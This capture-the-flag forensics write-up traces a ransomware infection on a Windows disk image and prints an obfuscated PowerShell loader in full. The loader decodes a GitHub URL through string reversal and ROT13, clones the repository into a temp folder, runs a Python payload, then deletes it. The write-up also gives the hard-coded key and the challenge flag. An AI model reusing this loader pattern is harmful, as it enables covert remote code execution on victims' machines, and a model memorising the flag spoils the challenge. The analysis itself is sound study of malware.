


## Challenge description
## Author : SDIKIYOUSRA

On our regular checkups, we found out that Oliver’s PC was hit by a ransomware! Fortunately, we managed to capture a forensic image of the machine.Can you unlock the ransom ?

## Artifact

* **File:** `chall.ad1`
* **Format:** AccessData Custom Content Image (AD1)
* **Target OS:** Windows

---

## Writeup

### 1. Initial Reconnaissance

The first step was to mount the `.ad1` image on linux to perform a file-system search. Given that many ransomware attacks utilize scripts for the initial "heavy lifting," I searched the entire directory structure for PowerShell files.

**Command:**

```bash
└─$ find . -type f -name "*.ps1"

./Windows/WinSxS/Temp/PendingDeletes/launcher.ps1
```

**Discovery:**
A suspicious file was located in a deep system directory:
`./Windows/WinSxS/Temp/PendingDeletes/launcher.ps1`

### 2. Deobfuscating the loader

Upon opening `launcher.ps1`, the code appeared heavily obfuscated. It used a combination of string manipulation and character shifting to hide its intent.

```bash
└─$ cat ./Windows/WinSxS/Temp/PendingDeletes/launcher.ps1

$4981467399f7459188dbfe833b22d8e5=")'renjzbf'+'anE'+'/7'+'33'+'1qvXbgc'+'lep/zbp.ohugvt//:'+'f'+'cggu'("
$33268a832f5d4cff89949c9ac11c941c=")'renjzbf'+'anE'+'/7'+'33'+'1qvXbgc'+'lep/zbp.ohugvt//:'+'f'+'cggu'(".ToCharArray(); [array]::reverse($4981467399f7459188dbfe833b22d8e5);$4981467399f7459188dbfe833b22d8e5 -join ""
$622d63aabfc34197802152fb0fcf38f9=-join $33268a832f5d4cff89949c9ac11c941c.ToCharArray() | ForEach-Object {
    $7fcda79b5b0c41f485bf41ae79122752 = $_
    if ($7fcda79b5b0c41f485bf41ae79122752 -match '[a-m]') { [char]([byte][char]$7fcda79b5b0c41f485bf41ae79122752 + 13) }
    elseif ($7fcda79b5b0c41f485bf41ae79122752 -match '[n-z]') { [char]([byte][char]$7fcda79b5b0c41f485bf41ae79122752 - 13) }
    elseif ($7fcda79b5b0c41f485bf41ae79122752 -match '[A-M]') { [char]([byte][char]$7fcda79b5b0c41f485bf41ae79122752 + 13) }
    elseif ($7fcda79b5b0c41f485bf41ae79122752 -match '[N-Z]') { [char]([byte][char]$7fcda79b5b0c41f485bf41ae79122752 - 13) }
    else { $7fcda79b5b0c41f485bf41ae79122752 }
}
$8c443aae2ffc4305b3ed7fe9ac71aab0 = [System.Text.Encoding]::Default.GetString([System.Convert]::FromBase64String("JGVudjp0ZW1wL3VwZGF0ZQ=="))

try {
    
    gIt ("{1}{0}" -f'lone','c') $622d63aabfc34197802152fb0fcf38f9 $8c443aae2ffc4305b3ed7fe9ac71aab0
    
    PyThOn3 "$8c443aae2ffc4305b3ed7fe9ac71aab0\sss.py"
    
    rEMovE-iTeM -pATh $8c443aae2ffc4305b3ed7fe9ac71aab0 -ReCUrse -fOrCe
    
}
catch {
    WrItE-hOsT ('['+'-] '+'E'+'r'+'ror: '+"$_")
} 

```

**Analysis of the script:**

* **String Reversal:** The script reversed a long string to reconstruct a URL.
* **ROT13 Logic:** It implemented a manual ROT13 cipher (shifting letters by 13 places) to decode the repository location.
* **Execution:** The script was designed to `git clone` a remote repository into the user's `$env:temp` folder and execute a Python script named `sss.py`.


### 3. Analyzing the Payload (`ransomware.py`)

After identifying the source repository, this script was the actual ransomware engine.


```python

ENCRYPTION_KEY = "SuperSecretKey123!"

```

### 4. Retrieving the Flag



**Final Flag:**
`NSC{r3p0_k3yS_unl0ck_th3_r4n50m}`

---


